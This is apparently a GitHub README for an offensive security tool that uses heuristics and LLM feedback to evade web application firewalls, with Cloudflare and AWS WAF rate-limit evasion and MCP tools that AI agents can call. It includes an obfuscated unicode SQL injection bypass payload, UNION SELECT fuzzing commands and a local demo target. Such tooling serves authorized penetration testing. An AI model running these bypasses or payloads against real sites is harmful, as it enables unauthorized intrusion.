

# WAF-Bypasser: LLM-Driven Iterative Evasion Fuzzer

`WAF-Bypasser` is a professional, modular Python library, CLI tool, and Model Context Protocol (MCP) server designed for black-box WAF testing, differential token probing, and generative syntax adaptation.

It maps target firewall filters to identify blocked vs allowed symbols and keywords, then chains rule-based heuristic mutators and LLM-driven generative feedback loops to dynamically construct bypass candidates for SQL Injection, SSRF, XSS, and Path Traversal.

---

## 🚀 How Powerful Is It? (Real-World Evasion Examples)

### **Normalization & Decoder Mismatch Bypass**
Against strict Paranoia Level 4 firewalls that recursively decode inputs and block quote breaking characters (`'`), spaces (` `), and comments (`/*`):
- The tool uses **Unicode compatibility homoglyphs and escape formats** (like `\U0027` and `\U0020`).
- If the WAF's normalizer crashes or fails closed on strict python-style 32-bit unicode parsing errors (while permissive database decoders accept it), the WAF skips filtering, allowing the payload:
  `1\U0027\U0020unIOn\u0020selEct\u00201\u002c2\u002C3\u002d\u002D`
  to bypass the rules and execute on the backend.

### **Rate Limiter & Anti-DDoS Evasion**
- Includes automatic sliding-window request pacing to evade sliding-window block thresholds (Anti-DDoS triggers) commonly configured in Cloudflare or AWS WAF.

---

## 📊 Evasion Architecture & Workflow



---

## 🛠️ Installation & Setup

### **Prerequisites**
- Python 3.10+
- A Gemini, Claude, or OpenAI API key (optional, for LLM feedback loops)

### **Installation**
Clone the repository and install the package locally:
```bash
git clone https://github.com/your-username/waf-bypasser.git
cd waf-bypasser
python3 -m venv venv
source venv/bin/activate
pip install -e . --index-url https://pypi.org/simple
```

---

## 💻 Step-by-Step Usage & Local Testing

### **Step 1: Start the Local WAF Target Server**
The repository includes an advanced mock target protected by an ultra-strict Paranoia Level 4 WAF (simulating ModSecurity CRS rules and rate-limiting).
```bash
python examples/local_waf_target.py
```
*Output: `Advanced PL4 OWASP-CRS WAF Target Server running on http://127.0.0.1:5050`*

### **Step 2: Execute the Evasion Fuzzer**

#### **A. Standard Run (Heuristics & Fallback Evolutionary Fuzzing)**
To run the CLI and fuzz the target parameter `q` indefinitely until a bypass is found:
```bash
waf-bypasser --url "http://127.0.0.1:5050/search?q=" --payload "1' UNION SELECT 1,2,3--" --param "q" --max-llm-iterations -1
```

#### **B. LLM-Driven Run (Generative Evasion Loop)**
Engage Gemini (or OpenAI/Claude) to dynamically analyze target block responses and propose mutations:
```bash
waf-bypasser --url "http://127.0.0.1:5050/search?q=" --payload "1' UNION SELECT 1,2,3--" --param "q" --use-llm --llm-provider gemini --llm-key "YOUR_GEMINI_API_KEY"
```

---

## ⚙️ Configuration Options

| Option | Type | Default | Description |
| :--- | :--- | :--- | :--- |
| `--url` | String | *Required* | Target base URL (can contain `{payload}` placeholder) |
| `--payload` | String | *Required* | Base exploit payload to bypass WAF for |
| `--param` | String | `None` | Target parameter name in URL or POST body |
| `--method` | Enum | `GET` | Request method (`GET` or `POST`) |
| `--vuln-type` | Enum | `auto` | Vulnerability type (`auto`, `sql`, `ssrf`, `xss`, `generic`) |
| `--use-llm` | Flag | `False` | Enable generative LLM feedback loop |
| `--llm-provider` | Enum | `gemini` | LLM provider to use (`gemini`, `openai`, `claude`) |
| `--max-llm-iterations` | Integer | `4` | Max LLM iterations. Set to `-1` for unlimited testing |
| `--proxy` | String | `None` | Proxy URL (e.g. `http://127.0.0.1:8080` for Burp Suite) |
| `--verbose` | Flag | `False` | Print verbose logging output |
| `--output` | String | `None` | Save detailed JSON results log to a filepath |

---

## 🤖 Integration as an MCP Server
You can register `WAF-Bypasser` as a Model Context Protocol (MCP) server so that agentic developer platforms (like Jetski, Claude Desktop, cursor) can call it directly as a tool during security analysis.

Add the following config to your MCP server host configuration file (e.g. `mcp_config.json`):
```json
{
  "mcpServers": {
    "waf-bypasser": {
      "command": "/absolute/path/to/waf-bypasser/venv/bin/python",
      "args": [
        "-m",
        "waf_bypasser.mcp_server"
      ]
    }
  }
}
```

### **Exposed MCP Tools:**
- **`probe_waf`**: Performs differential probing to discover WAF blocked character map.
- **`generate_heuristic_mutations`**: Generates rule-based obfuscated payloads.
- **`bypass_waf`**: Runs the entire multi-phase bypass pipeline.

---

## 📁 Repository Structure
```text
waf-bypasser/
├── README.md
├── pyproject.toml
├── requirements.txt
├── .gitignore
├── waf_bypasser/
│   ├── __init__.py
│   ├── client.py         # HTTP client with rate-limiting & block triggers
│   ├── prober.py         # Differential token prober
│   ├── core.py           # Core orchestrator & random fuzzing engine
│   ├── fingerprinter.py  # WAF signature analyzer
│   ├── llm.py            # Gemini, OpenAI, Claude Client API wrapper
│   ├── mcp_server.py     # MCP Server tool definitions
│   ├── cli.py            # Rich graphics CLI UI
│   └── mutators/         # Heuristic transformation plugins
│       ├── __init__.py
│       ├── base.py
│       ├── sql.py
│       ├── ssrf.py
│       └── encoder.py
├── tests/                # Unit tests
└── examples/             # Safe target simulators & setup scripts
```

## ⚖️ Disclaimer
*This tool is created for educational purposes and authorized penetration testing only. Do not use it against targets without written, prior consent.*
